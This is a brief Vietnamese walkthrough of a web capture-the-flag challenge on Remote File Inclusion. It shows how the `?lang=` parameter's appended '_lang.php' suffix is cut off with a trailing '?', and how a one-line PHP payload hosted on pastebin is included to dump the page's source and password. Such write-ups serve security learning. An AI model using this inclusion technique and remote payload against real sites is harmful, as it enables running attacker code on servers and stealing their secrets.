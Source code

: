 Tiêu đề của chall này chính là 1 hint, bài này phải khai thác theo hướng Remote File Inclusion, điểm khai thác chính là đường dẫn `?lang=...`

Thử với 1 file không có sẵn : `?lang=eng`, trang web hiện lên thông báo như sau:

> Warning: include(eng_lang.php): failed to open stream: No such file or  directory in /challenge/web-serveur/ch13/index.php on line 18 Warning: include(): Failed opening 'eng_lang.php' for inclusion  (include_path='.:/usr/share/php') in  /challenge/web-serveur/ch13/index.php on line 18

Vậy nó sẽ tự động thêm đuôi `_lang.php` vào đằng sau file. Phải làm thế nào để cắt phần đó đi, có thể dùng `null bytes` hoặc dấu hỏi chấm(đằng sau dấu `?` coi là parameter đính kèm ). Thử với link của  google : `?lang=https://www.google.com/?` , trang web đã có giao diện của trang google

Dùng [pastebin](https://pastebin.com/), viết ` đoạn code php để đọc password:

```php
<?php show_source('index.php'); ?>
```

đính kèm tên file raw của pastebin vào url `?lang=pastebin.blabla` ta sẽ có được source code của trang web

